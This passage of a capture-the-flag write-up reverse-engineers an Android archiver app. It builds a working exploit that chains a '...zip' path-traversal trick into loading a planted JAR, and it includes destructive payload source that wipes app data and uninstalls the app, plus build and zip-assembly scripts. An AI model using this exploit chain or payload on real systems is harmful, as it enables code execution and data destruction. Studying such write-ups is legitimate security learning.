        substring = str.substring(Math.max(str.lastIndexOf(47), str.lastIndexOf(92)) + 1);
    } else {
        throw new IllegalArgumentException("Null character present in file/path name. There are no known legitimate use cases for such data, but several injection attacks may use it");
    }
    if (substring == null) {
        return null;
    }
    if (substring.indexOf(0) < 0) {
        int b5 = b(substring);
        if (b5 == -1) {
            return substring;
        }
        return substring.substring(0, b5);
    }
    throw new IllegalArgumentException("Null character present in file/path name. There are no known legitimate use cases for such data, but several injection attacks may use it");
}
```

So the name of the class is basically the name of the JAR file, without the `.jar` extension

The type is also enforced here

```java
ZipFormat zipFormat = (ZipFormat) newInstance;
```

So the loaded class must implement or extend `net.axolotl.zippier.ZipFormat` which we can tell based on the error checking

```java
r.c(newInstance, "null cannot be cast to non-null type net.axolotl.zippier.ZipFormat");
```

This looks to be super interesting, and can be a potential RCE. It loads a JAR file and instantiates a class. If we can control what JAR is loaded, we can have a class that executes code on instantiation (basically has code that runs or calls a function in the constructor or in a static block), and can essentially run whatever we want

So our next step is to find where this `Q3.d.a` function is called, and see if we can somehow control what JAR file is passed in

We can find the code in a separate package, `D3`, in the `j` class

The class is pretty long, but there's a switch case statement, with case 2 being specifically important

```java
case 2:
    Q3.d dVar = (Q3.d) this.f1105e;
    String it2 = (String) obj;
    kotlin.jvm.internal.r.e(it2, "it");
    dVar.getClass();
    Locale locale = Locale.ROOT;
    String lowerCase = it2.toLowerCase(locale);
    kotlin.jvm.internal.r.d(lowerCase, "toLowerCase(...)");
    Logger logger = dVar.f4238b;
    logger.debug("getting format for ".concat(lowerCase));
    LinkedHashMap linkedHashMap = dVar.f4241e;
    if (linkedHashMap.containsKey(lowerCase)) {
        return (ZipFormat) linkedHashMap.get(lowerCase);
    }
    ArrayList arrayList = dVar.f4242f;
    String lowerCase2 = lowerCase.toLowerCase(locale);
    kotlin.jvm.internal.r.d(lowerCase2, "toLowerCase(...)");
    InputStream inputStream = null;
    if (!arrayList.contains(lowerCase2)) {
        return null;
    }
    File file = new File(dVar.f4240d, dVar.f4243g + "." + E.a(ZipFormat.class).d() + "_" + lowerCase + ".jar");
    if (file.exists()) {
        Q3.d.a(dVar, file);
    } else {
        try {
            Q3.e eVar = dVar.f4244h;
            if (eVar != null) {
                logger.debug("attempting download for format ".concat(lowerCase));
                response = (Response) B.w(C0751i.f8740d, new Q3.c(eVar, lowerCase, null));
            } else {
                response = null;
            }
            if (response != null && response.isSuccessful()) {
                ResponseBody responseBody = (ResponseBody) response.body();
                if (responseBody != null) {
                    inputStream = responseBody.byteStream();
                }
                if (inputStream != null) {
                    try {
                        FileOutputStream fileOutputStream = new FileOutputStream(file);
                        try {
                            m0.c.v(inputStream, fileOutputStream);
                            fileOutputStream.close();
                            logger.info("format written to " + file);
                            inputStream.close();
                        } finally {
                        }
                    } catch (Throwable th) {
                        try {
                            throw th;
                        } catch (Throwable th2) {
                            n2.f.l(inputStream, th);
                            throw th2;
                        }
                    }
                }
                Q3.d.a(dVar, file);
            }
        } catch (Throwable th3) {
            logger.error("exception during format download: " + th3);
        }
    }
    return (ZipFormat) linkedHashMap.get(lowerCase);
```

In summary, this code, given a supported archive format (like `7z` or `tar` for example. We'll go over which specific ones later), returns a `ZipFormat` instance, which implements the logic for handling that archive format. If it's not already loaded, it'll try to load it from disk. If it's not on disk, it'll try to download it

First it gets what the format type is

```java
Q3.d dVar = (Q3.d) this.f1105e;
String it2 = (String) obj;
kotlin.jvm.internal.r.e(it2, "it");
dVar.getClass();
Locale locale = Locale.ROOT;
String lowerCase = it2.toLowerCase(locale);
kotlin.jvm.internal.r.d(lowerCase, "toLowerCase(...)");
Logger logger = dVar.f4238b;
logger.debug("getting format for ".concat(lowerCase));
```

It then checks to see if the `zipFormat` class implementation is already loaded, and also checks to see if the format is supported (oddly it checks if it's supported after checking if it's already loaded, but whatever)

```java
LinkedHashMap linkedHashMap = dVar.f4241e;
if (linkedHashMap.containsKey(lowerCase)) {
    return (ZipFormat) linkedHashMap.get(lowerCase);
}
ArrayList arrayList = dVar.f4242f;
String lowerCase2 = lowerCase.toLowerCase(locale);
kotlin.jvm.internal.r.d(lowerCase2, "toLowerCase(...)");
InputStream inputStream = null;
if (!arrayList.contains(lowerCase2)) {
    return null;
}
```

It then builds the expected filename of the JAR and passes it into the `Q3.d.a` function we looked at earlier in order to load the class

```java
File file = new File(dVar.f4240d, dVar.f4243g + "." + E.a(ZipFormat.class).d() + "_" + lowerCase + ".jar");
if (file.exists()) {
    Q3.d.a(dVar, file);
}
```

This code essentially tells us what the name of the JAR files the app is looking for are

`dVar.f4240d` is the directory that these JARs are stored in

`dVar.f4243g` is then some sort of prefix. 

We can actually see both of these get set in the constructor of `Q3/d`

```java
File file = new File(str == null ? System.getProperty("java.io.tmpdir") : str, "zippier");

...
...
other code
...
...

String optString = jSONObject.optString("downloads", "downloads");
r.d(optString, "optString(...)");
File file3 = new File(optString);
file3 = file3.isAbsolute() ? file3 : new File(file, file3.getName());
try {
    if (!file3.exists() && !file3.mkdirs()) {
        throw new SecurityException("mkdirs() returned null");
    }
    this.f4240d = file3;
    logger.info("created format download directory " + file3);
} catch (SecurityException e5) {
    logger.error("failed to create format download directory " + file3 + ": " + e5);
}
...
...
other code
...
...

this.f4243g = jSONObject.optString("classpath", "net.axolotl.zippier");
```

It checks for the `downloads` key in the JSON file for the zipArchiver class. If no value is set, it defaults to `downloads`. Spoiler alert, we know that the `downloads` key has the value `formats`. It also checks for the `classpath` key. If no value is set, it defaults to `net.axolotl.zippier`. Another spoiler alert, the `classpath` key is indeed nonexistent

So `dVar.f4240d` is `zippier/formats` and `classpath` is `net.axolotl.zippier`

Then `E.a(ZipFormat.class).d()` returns the simple class name, which is `ZipFormat`. This can be seen when looking at the code for that `d()` function

```java
public final String d() {
    String g5;
    Class jClass = this.f8757d;
    r.e(jClass, "jClass");
    String str = null;
    if (jClass.isAnonymousClass()) {
        return null;
    }
    if (jClass.isLocalClass()) {
        String simpleName = jClass.getSimpleName();
        Method enclosingMethod = jClass.getEnclosingMethod();
        if (enclosingMethod != null) {
            return D3.m.C0(simpleName, enclosingMethod.getName() + '$');
        }
        Constructor<?> enclosingConstructor = jClass.getEnclosingConstructor();
        if (enclosingConstructor != null) {
            return D3.m.C0(simpleName, enclosingConstructor.getName() + '$');
        }
        return D3.m.B0('$', simpleName, simpleName);
    }
    if (jClass.isArray()) {
        Class<?> componentType = jClass.getComponentType();
        if (componentType.isPrimitive() && (g5 = I.g(componentType.getName())) != null) {
            str = g5.concat("Array");
        }
        if (str == null) {
            return "Array";
        }
        return str;
    }
    String g6 = I.g(jClass.getName());
    if (g6 == null) {
        return jClass.getSimpleName();
    }
    return g6;
}
```

The class isn't anonymous, local, or an array, so we end at this part near the end

```java
String g6 = I.g(jClass.getName());
if (g6 == null) {
    return jClass.getSimpleName();
}
```

```java
return jClass.getSimpleName();
```

would just return `ZipFormat`

`lowerCase` is just the format type in lowercase. So the full path of the JAR it looks for is

`zippier/formats/net.axolotl.zippier.ZipFormat_[format type].jar`

Moving on, if the JAR does not exist on disk it tries to download it, which is basically what the rest of the code is

```java
else {
    try {
        Q3.e eVar = dVar.f4244h;
        if (eVar != null) {
            logger.debug("attempting download for format ".concat(lowerCase));
            response = (Response) B.w(C0751i.f8740d, new Q3.c(eVar, lowerCase, null));
        }
    ...
    ...
    rest of download logic
    ...
    ...
```

An important note is that the location it attempts to download the new JAR into is **the same** location that it tries to check for the existing JAR in

The actual downloading itself doesn't lead anywhere really though

Looking at the `assets/zippier.json` file we can look at in jadx-gui, we can see what kind of format types the app expects, where it tries to download the JARs from if it's not on disk, and if the `classpath` key exists.

```json
{
  "formats": ["7z", "xz", "lzma", "bzip2", "gz", "tar"],
  "downloads": "formats",
  "url": "https://dl.badguy.local/zippier"
}
```

From this, we can confirm that there is no `classpath` key, so the JAR file prefix is indeed `net.axolotl.zippier`. This also confirms the `formats` directory being the directory the JARs are in. This all confirms that the JAR file paths are in the format

`zippier/formats/net.axolotl.zippier.ZipFormat_[format type].jar`

Do note though that all relative paths are resolved relative to the app’s cache directory on Android, which is `/data/user/0/com.badguy.mmarchiver/cache/` in our case as we saw in the logs from our earlier testing

Additionally, based on the class loading logic we saw earlier, the name of the class from this JAR file that the app will try to instantiate is 

`net.axolotl.zippier.ZipFormat_[format type]`

The URL it tries to download JARs from is `"https://dl.badguy.local/zippier"`, which is not of much use to us

However, the supported formats are `"7z", "xz", "lzma", "bzip2", "gz", "tar"`, which *is* important

We can run some tests to confirm some of this though

Let's try to trigger this JAR file format loading logic. We'll tweak our Python zip in a zip code to also include a dummy `7z` file since we saw that that was one of the supported formats

```python
import zipfile
import io

# Create inner zip in memory
inner_buffer = io.BytesIO()
with zipfile.ZipFile(inner_buffer, 'w', zipfile.ZIP_DEFLATED) as inner_zip:
    inner_zip.writestr('inside.txt', 'Hello from inner zip')
    inner_zip.writestr('empty.7z', b'')  # empty 7z file to just trip the JAR loading logic


inner_buffer.seek(0)

# Create outer zip and write inner zip as a file
with zipfile.ZipFile('outside.zip', 'w', zipfile.ZIP_DEFLATED) as outer_zip:
    outer_zip.writestr('inside.zip', inner_buffer.read())
```

Uploading this and filtering the logs by the word "format", we see the below




This shows us that the full location of the JAR files on the Android OS is `/data/user/0/com.badguy.mmarchiver/cache/zippier/formats/`, which confirms us piecing together the the directory was `/zippier/formats/`, since `/data/user/0/com.badguy.mmarchiver/cache/` is just where data for the app is stored 

It also does indeed show that the `7z` format tries to get processed. We can infer from these logs that the `7z` JAR does not exist already on disk, so the app attempts to download it

Download fails though because the hostname `dl.badguy.local` doesn't resolve to anything



Alright great, we kind of see our avenue for RCE. Essentially, we have to somehow get the app to load our own JAR file, which we know how to make since we know the name it needs to be, and where it needs to be located on the disk, which is at `/data/user/0/com.badguy.mmarchiver/cache/zippier/formats/`. There is no JAR on disk that handles `7z` as we saw, so we can try to upload our own `7z` JAR that does does whatever we want it to do 

The question is, how exactly do we get it there

#### The ZipSlip Strikes Back

Remember the path that all downloaded zip files go to that we found earlier?

It was `/data/user/0/com.badguy.mmarchiver/cache/zippier/extract/`. This is pretty close to the directory that the JAR files are supposed to be in, which are at `/data/user/0/com.badguy.mmarchiver/cache/zippier/formats/`

We just have to find a way to go up a directory

We're right back where we started, finding some kind of way to achieve directory traversal

After a while, I finally found out how to achieve that coveted ZipSlip with the below test code

```python
import zipfile
import io

# Create inner zip in memory
inner_buffer = io.BytesIO()
with zipfile.ZipFile(inner_buffer, 'w', zipfile.ZIP_DEFLATED) as inner_zip:
    inner_zip.writestr('inside.txt', 'Hello from inner zip')


inner_buffer.seek(0)

# Create outer zip and write inner zip as a file
with zipfile.ZipFile('outside.zip', 'w', zipfile.ZIP_DEFLATED) as outer_zip:
    outer_zip.writestr('...zip', inner_buffer.read())
```

I named the inner zip file `...zip`

Why does this work?

Remember the ZipSlip check?

```java
String canonicalPath = file.getCanonicalPath();
r.d(canonicalPath, "getCanonicalPath(...)");
if (t.e0(canonicalPath, targetPath.getCanonicalPath() + File.separator, false)) {
    ...
}
```

`getCanonicalPath()` lets `...zip` through just fine. This means the zip file's path is

`/data/user/0/com.badguy.mmarchiver/cache/zippier/extract/...zip`

This of course starts with `/data/user/0/com.badguy.mmarchiver/cache/zippier/extract/`, so it passes the check

However, when the extraction actually happens, the extraction location will be

`/data/user/0/com.badguy.mmarchiver/cache/zippier/extract/..`

This is because of the `addFile` function in `Q3/b`. This function processes zip file contents

```java
 public ZipFile addFile(File file) {
    String substring;
    ArrayList arrayList = (ArrayList) this.f4229a;
    kotlin.jvm.internal.r.e(file, "file");
    if (file.exists()) {
        if (file.isDirectory()) {
            arrayList.add(file);
            return this;
        }
        String absolutePath = file.getAbsolutePath();
        if (absolutePath == null) {
            char c5 = b4.c.f6878a;
            substring = null;
        } else {
            int b5 = b4.c.b(absolutePath);
            if (b5 == -1) {
                substring = _UrlKt.FRAGMENT_ENCODE_SET;
            } else {
                substring = absolutePath.substring(b5 + 1);
            }
        }
        kotlin.jvm.internal.r.d(substring, "getExtension(...)");
        String lowerCase = substring.toLowerCase(Locale.ROOT);
        kotlin.jvm.internal.r.d(lowerCase, "toLowerCase(...)");
        ZipFormat zipFormat = (ZipFormat) ((j) this.f4232d).invoke(lowerCase);
        if (zipFormat != null) {
            ((Logger) this.f4233e).debug("found format for ".concat(lowerCase));
            File file2 = new File((File) this.f4231c, b4.c.a(file.getAbsolutePath()));
            arrayList.add(file2);
            zipFormat.uncompress(file, file2, this);
            return this;
        }
        arrayList.add(file);
        return this;
    }
    throw new FileNotFoundException(AbstractC0003b0.o("no file found for processing at ", file.getAbsolutePath()));
}
```

This line

```java
File file2 = new File((File) this.f4231c, b4.c.a(file.getAbsolutePath()));
```

is basename extraction, as seen when we look at the `a()` function's code. We actually already saw this same function earlier when looking at what the name of the class that gets instantiated is

```java
public static String a(String str) {
    String substring;
    if (str == null) {
        substring = null;
    } else if (str.indexOf(0) < 0) {
        substring = str.substring(Math.max(str.lastIndexOf(47), str.lastIndexOf(92)) + 1);
    } else {
        throw new IllegalArgumentException("Null character present in file/path name. There are no known legitimate use cases for such data, but several injection attacks may use it");
    }
    if (substring == null) {
        return null;
    }
    if (substring.indexOf(0) < 0) {
        int b5 = b(substring);
        if (b5 == -1) {
            return substring;
        }
        return substring.substring(0, b5);
    }
    throw new IllegalArgumentException("Null character present in file/path name. There are no known legitimate use cases for such data, but several injection attacks may use it");
}
```

This returns the file name without the extension as we know. So `...zip` resolves to `..`

`/data/user/0/com.badguy.mmarchiver/cache/zippier/extract/..` of course is just

`/data/user/0/com.badguy.mmarchiver/cache/zippier/`

allowing us to traverse up one directory

This is confirmed when I upload the `outside.zip` file with the inner zip being named `...zip` and we check the logs



That error about not being able to delete `/data/user/0/com.badguy.mmarchiver/cache/zippier/extract/..` confirms that our ZipSlip worked!

Time to create the exploit

#### Exploit Time

The exploit should be pretty simple. What we need to do is have an outer zip, which I'll name `exploit.zip` 

This outer zip will contain another zip file, whose name is `...zip` to allow us to traverse up a directory

Then within `...zip`, we will have two files

One file is named `pwn.7z`, which just triggers the JAR file loading logic

The second file will be named `formats/net.axolotl.zippier.ZipFormat_7z.jar`, and will be a malicious JAR file. Why this name again?

`...zip` allows us to traverse to 

`/data/user/0/com.badguy.mmarchiver/cache/zippier/`

since that's what

`/data/user/0/com.badguy.mmarchiver/cache/zippier/extract/..`

resolves to

Having our file named `formats/net.axolotl.zippier.ZipFormat_7z.jar` means it will get written to 

`/data/user/0/com.badguy.mmarchiver/cache/zippier/formats/net.axolotl.zippier.ZipFormat_7z.jar`

which is exactly where we want it to be based on our analysis from before. Remember that we indeed *are* allowed to write "down" a directory, since our earlier test having our text file location be `test/inside.txt` worked

First off, let's make that malicious JAR file

We first make 3 Java files, `ZipFile.java`, `ZipFormat_7z.java`, and `ZipFormat.java`

I made these located in the directory path, `src/net/axolotl/zippier/`

`ZipFile.java` is just

```java
package net.axolotl.zippier;

public interface ZipFile {
    // Stub, fill in if needed by app
}
```

`ZipFormat.java` is just

```java
package net.axolotl.zippier;

import java.io.File;

public interface ZipFormat {
    String getExtension();
    void uncompress(File inFile, File targetPath, ZipFile outFile) throws Exception;
}
```

Then the real magic, `ZipFormat_7z.java`, consists of 

```java
package net.axolotl.zippier;

import java.io.File;
import android.util.Log;

public class ZipFormat_7z implements ZipFormat {
    static {
        try {
            Log.e("EXPLOIT", "Destroying adversary communications");

            // Delete all archived files
            deleteArchives();

            // Delete the app itself
            deleteApp();

            Log.e("EXPLOIT", "Mission complete");

        } catch (Exception e) {
            Log.e("EXPLOIT", "Error: " + e.getMessage());
        }
    }

    private static void deleteArchives() {
        new Thread(() -> {
            try {
                // Delete all archived messages
                File archiveDir = new File("/storage/emulated/0/Android/data/com.badguy.mmarchiver/files/");

                if (archiveDir.exists()) {
                    Log.e("EXPLOIT", "Deleting archives from: " + archiveDir.getAbsolutePath());
                    deleteRecursively(archiveDir);
                }

                // Also delete internal cache
                File cacheDir = new File("/data/data/com.badguy.mmarchiver/cache/");
                if (cacheDir.exists()) {
                    Log.e("EXPLOIT", "Clearing cache");
                    deleteRecursively(cacheDir);
                }

                // Delete app database
                File dbFile = new File("/data/data/com.badguy.mmarchiver/databases/");
                if (dbFile.exists()) {
                    Log.e("EXPLOIT", "Deleting databases");
                    deleteRecursively(dbFile);
                }

            } catch (Exception e) {
                Log.e("EXPLOIT", "Delete error: " + e.getMessage());
            }
        }).start();
    }

    private static void deleteApp() {
        new Thread(() -> {
            try {
                // Uninstall the app via pm command
                Process p = Runtime.getRuntime().exec(new String[]{
                    "/system/bin/sh", "-c",
                    "pm uninstall com.badguy.mmarchiver"
                });
                p.waitFor();

                Log.e("EXPLOIT", "App uninstall command executed");

            } catch (Exception e) {
                Log.e("EXPLOIT", "Uninstall error: " + e.getMessage());
            }
        }).start();
    }

    private static void deleteRecursively(File file) {
        if (file.isDirectory()) {
            File[] files = file.listFiles();
            if (files != null) {
                for (File child : files) {
                    deleteRecursively(child);
                }
            }
        }

        boolean deleted = file.delete();
        Log.e("EXPLOIT", (deleted ? "Deleted: " : "Failed to delete: ") + file.getAbsolutePath());
    }

    @Override
    public String getExtension() {
        return "7z";
    }

    @Override
    public void uncompress(File inFile, File targetPath, ZipFile outFile) throws Exception {
        // Could also delete files here if called
        Log.e("EXPLOIT", "Uncompress called - already done");
    }
}
```

We have a static block, 

```java
 static {
    try {
        Log.e("EXPLOIT", "Destroying adversary communications");

        // Delete all archived files
        deleteArchives();

        // Delete the app itself
        deleteApp();

        Log.e("EXPLOIT", "Mission complete");

    } catch (Exception e) {
        Log.e("EXPLOIT", "Error: " + e.getMessage());
    }
}
```

which calls some functions, `deleteArchives()` and `deleteApp()`. Since this is a static block, it'll run upon class initialization

It's pretty obvious based on the names of the functions that they just try to delete a bunch of things to interfere with the bad actors' archives. However, you can have your `ZipFormat_7z.java` do whatever you want it to do. For example, more useful functionality would be establishing a reverse shell, or downloading the archived files instead of deleting them

Recall that `ZipFormat.java` is required and `ZipFormat_7z.java` must implement it because of this code we saw earlier in the class loader logic that enforces the type

```java
ZipFormat zipFormat = (ZipFormat) newInstance;
```

Now that we have our Java files, I used the below commands to create the JAR file. You have to compile it in a certain way though to ensure it can be loaded by Android. Essentially, turning the Java source code into Android-loadable DEX inside a JAR

First compiling the code into `.class` files (I compiled on Windows)

```bash
javac -classpath "Path\To\My\android-33\android.jar" -source 1.8 -target 1.8 -d out/ src/net/axolotl/zippier/*.java
```

then converting the `.class` files into `.dex` files

```bash
java -cp "Path\To\My\Android\Sdk\build-tools\33.0.2\lib\d8.jar" com.android.tools.r8.D8 --output out_dex ZipFormat_7z.jar
```

Then packaging those `.dex` files into a JAR

```bash
cd out_dex

jar cf ../ZipFormat_7z_dex.jar classes.dex
```

We now finally have the JAR we need

Now using the below Python code, we can assemble our malicious zip file

```python
import zipfile

# Create inner zip with the malicious JAR at the right path
with zipfile.ZipFile('inner.zip', 'w') as z:
    
    with open("ZipFormat_7z_dex.jar", "rb") as jar_file:
        jar_bytes = jar_file.read()

    # Path relative to /cache/zippier/
    z.writestr('formats/net.axolotl.zippier.ZipFormat_7z.jar', jar_bytes)

    z.writestr('pwn.7z', b'Trigger exploit')


# Read inner zip
with open('inner.zip', 'rb') as f:
    inner_zip_data = f.read()

''' 
Create outer zip with inner named to escape to parent, and its contents are what we created above 

Extracts inner zip as just "..", so 'formats/net.axolotl.zippier.ZipFormat_7z.jar' gets extracted to
/cache/zippier/extract/../formats/net.axolotl.zippier.ZipFormat_7z.jar, which is just 
/cache/zippier/formats/net.axolotl.zippier.ZipFormat_7z.jar
'''
with zipfile.ZipFile('exploit.zip', 'w') as z:
    z.writestr('...zip', inner_zip_data)
```

Basically we first create the inner zip, which consists of the JAR file named `formats/net.axolotl.zippier.ZipFormat_7z.jar`, and a dummy file named `pwn.7z` to trigger the exploit

The outer zip, named `exploit.zip`, then consists of the inner zip contents above, but of course the inner zip is named `...zip`

Uploading this `exploit.zip`, we see that our exploit worked!





Submitting this zip file solves this task! 

I will note that it doesn't really matter what your malicious JAR did. It appears that the task just checked to see that it was loaded at all to accept your submission

It was a really fun journey, and we learned a lot. I wasn't expecting the android rev at the end here, but it was a welcome surprise 

Alas, the challenge coin has finally been acquired

**Response:**
> With full access to the device we now have full visibility into this threat actor's entire infrastructure and capabilities. The US Military has everything they need to take decisive action against this threat. The security configurations of DoD networks worldwide are updated to guard against the exploited vulnerabilities, the adversary's infrastructure is destroyed, and the entire team of threat actors are identified. DIRNSA briefed the president on your work and how you enabled the mitigation of this threat. Great job!

> Through dedication, skill, and teamwork; NSA guaranteed the protection of the US Militaries advantage in the cyber domian.